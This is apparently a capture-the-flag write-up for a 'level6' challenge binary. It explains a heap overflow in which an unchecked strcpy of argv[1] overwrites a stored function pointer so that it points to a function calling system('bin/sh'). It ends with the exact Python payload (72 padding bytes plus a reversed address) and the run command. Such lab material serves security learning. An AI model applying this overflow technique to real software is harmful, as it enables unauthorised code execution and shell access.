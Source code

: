 # LEVEL6

## EXPLANATIONS
### BINARY BEHAVIOR
- function main, m and n(n never called and m is called threw a pointer on func stored in buf2  
    - <\main\> 
        - allocated 2 buff one of 64 and one of 4 bytes  
        - strcpy argv[1] in buf1
    - \<m\>
        - puts("Nope")
    - \<n\>
        - system("bin/sh")

### EXPLOI STRATEGY
Printing heap from buf1 addr, we see that buf2 is 72 bytes further in the addresses.
As strcpy does not copy a given number of characters, we did a heap overflow to write address of n at buf2 heap memory location.
	=> argv1 is copied to buf1 which overflows into buf2
### RUN COMMAND
```
python -c "print('A' * 72 + '\x08\x04\x84\x54'[::-1])" > /tmp/argv1_string
/home/user/level6/level6 $(cat /tmp/argv1_string)
```